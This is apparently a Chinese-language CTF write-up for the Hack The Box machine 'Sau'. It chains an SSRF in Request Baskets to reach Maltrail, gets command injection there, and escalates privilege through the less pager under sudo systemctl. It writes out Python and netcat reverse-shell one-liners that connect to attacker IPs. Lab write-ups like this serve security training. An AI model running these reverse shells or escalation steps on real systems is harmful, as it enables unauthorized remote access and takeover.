# HTB-Sau

评级为easy，这个赛季打的第一个盒子。回顾来看确实很easy，但是在reverse shell的时候卡了很久。sh反向shell不行的时候就换一下其他的语言的反向shell。



拿到ip后nmap扫一下：

```shell
nmap -sS -p- -Pn --open --min-hostgroup 1024 --min-parallelism 1024 -T4
 -v 10.10.11.224
```

- -sS SYN半连接扫描
- -p- 扫描所有端口
- -Pn 默认主机在线 
- --min-hostgroup 1024 同时扫描1024个ip（这里可以不要）
- --min-parallelism 1024 1024个端口同时扫描
- -T4 控制nmap扫描速度为4
- -v 输出详细程度
- --open 只显示开放端口

结果如下：



开了22和55555端口，再用nmap扫一下55555端口：

```shell
nmap -sV -p 5555 10.10.11.224
```



curl一下看看：



存在http服务，但是我是通过ssh连接内网的另一台kali，kali上连的htb网络，我的本机没有连上htb的vpn，所以无法直接访问。这里用rinetd做个端口转发：



意思为允许所有请求本机（kali）55555端口的IP转发到10.10.11.224的55555端口。

本机可以成功访问：



浏览器打开：



点击Create创建一个请求篮子，并且给你一个url，别人如果访问了这个url，控制器会有记录。就是类似于dnslog的一个功能。



Google查一下Requset Baskets，存在SSRF漏洞**[CVE-2023-27163](https://github.com/entr0pie/CVE-2023-27163)**。

修改一下设置：



再访问一下生成的请求篮子链接：



这里通过ssrf访问的是http协议的默认80端口（因为我在setting中并没有指定端口），但是nmap扫描中它并没有开放，估计是有防火墙设置了端口不对外开放。我随便试了一下，成功了还挺意外的。

这里很多资源都没有加载出来，burp抓包看一下丢了哪些包：



因为是通过篮子设置的链接，所以我们只要在创建篮子处创建相同与请求url的地址即可。像这样：



记得勾选上扩展Path。可以看到js资源成功访问。



成功访问js后会新增很多其他的请求，这里我就不一一的去设置了，记得如果想要完整的显示页面记得在burp的filter中勾选上images和css，burp默认是不抓这些包的。



这里我们只要知道这个服务是叫Maltrail即可（左下角）。还是Google查一下公开的漏洞：https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/。



我们的payload写在\`\`中。通过Post请求发送到Login页面。设置一下篮子，使其指向本地的login页面。

> 写着写着发现网页未响应了....md，htb的vpn又断了...

burp抓包Post poc。kali通过python在8000端口创建一个http server。





**RCE验证成功**，构造反向shell payload。(/bin/bash >& /dev/tcp/ip/port 0>&1是不行的，base64后也不行，试了很多种，只有python的这一种可用)。这里除了反向shell还有其他的方法，比如向~/.ssh/authorized_keys中写你的公钥等。

```shell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.12",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
#使用的简短版
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.16.24",8888));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("/bin/bash")'
```

> ```
> nc 10.10.16.12 7777 | /bin/bash | nc 10.10.16.12 8888 #其他的wp用的这个
> ```
>
> 

kali通过pwncat监听反向shell。



Post payload，pwncat会自动升级shell。



拿到userflag：



Sudo -l发现可以免密码执行systemctl status：



小tip，systemctl status会调用less(不知道没关系，通过pspy可以看到)，通过less可以直接提权。https://gtfobins.github.io/gtfobins/less/

```shell
#less下
!/bin/bash
```




**总结：** 难点在于会被固定的反向shell限制住思维，在使用payload之前验证一下漏洞是否存在十分重要，这样你就能知道是你的payload错了而不是用错了漏洞。